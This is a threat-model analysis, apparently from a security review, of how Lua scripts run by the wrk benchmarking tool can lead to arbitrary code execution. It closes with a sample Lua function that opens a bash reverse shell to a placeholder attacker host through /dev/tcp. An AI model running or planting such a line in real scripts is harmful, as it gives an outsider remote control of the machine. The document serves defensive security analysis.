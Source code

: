 ### 4. Deep Analysis of Attack Tree Path: Execute Arbitrary Code on wrk Host

**Introduction:**

The attack path "Execute Arbitrary Code on wrk Host" highlights a critical security risk. Successful exploitation allows an attacker to gain complete control over the machine running `wrk`. This is a severe compromise, potentially leading to data breaches, system disruption, and further attacks on internal networks.

**4.1. Potential Vulnerability: Lua Scripting in `wrk`**

`wrk` offers powerful scripting capabilities using Lua. Users can provide Lua scripts to customize request generation, response processing, and reporting. This feature, while beneficial for advanced benchmarking, introduces a significant potential vulnerability: **Lua Code Injection**.

*   **Mechanism:** `wrk` executes user-provided Lua scripts within its process. If an attacker can control the content of the Lua script executed by `wrk`, they can inject arbitrary Lua code. Lua, while designed to be embeddable, provides access to powerful system functionalities through libraries like `os` and `io`.  If not properly sandboxed or restricted, these libraries can be abused to execute system commands, manipulate files, and establish network connections.

*   **Attack Scenario:**
    1.  **Malicious Script Creation:** An attacker crafts a malicious Lua script containing code designed to execute arbitrary commands on the host operating system. This script could leverage Lua's `os.execute`, `io.popen`, or similar functions to interact with the underlying system.
    2.  **Script Delivery:** The attacker needs to deliver this malicious script to the `wrk` application. Potential delivery vectors are discussed in section 4.2.
    3.  **Script Execution:**  `wrk` is instructed to use the malicious Lua script during its benchmarking process. This could be achieved through command-line arguments (`-s <script>`) or configuration files (if `wrk` supports loading configurations that include scripts).
    4.  **Arbitrary Code Execution:** When `wrk` executes the malicious Lua script, the injected code is executed with the privileges of the `wrk` process. This allows the attacker to perform actions such as:
        *   **System Command Execution:**  Run shell commands to install malware, create backdoors, modify system configurations, or disrupt services.
        *   **Data Exfiltration:** Access and steal sensitive data stored on the host or accessible from it.
        *   **Privilege Escalation (Potentially):**  Attempt to exploit further vulnerabilities from within the compromised `wrk` process to gain higher privileges.
        *   **Lateral Movement:** Use the compromised host as a pivot point to attack other systems within the network.

*   **Example Malicious Lua Code (Conceptual):**

    ```lua
    -- Malicious Lua script to execute a system command (example: reverse shell)
    function response(headers, body)
        local command = "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1" -- Replace attacker_ip and attacker_port
        os.execute(command)
        return
    end
    ```
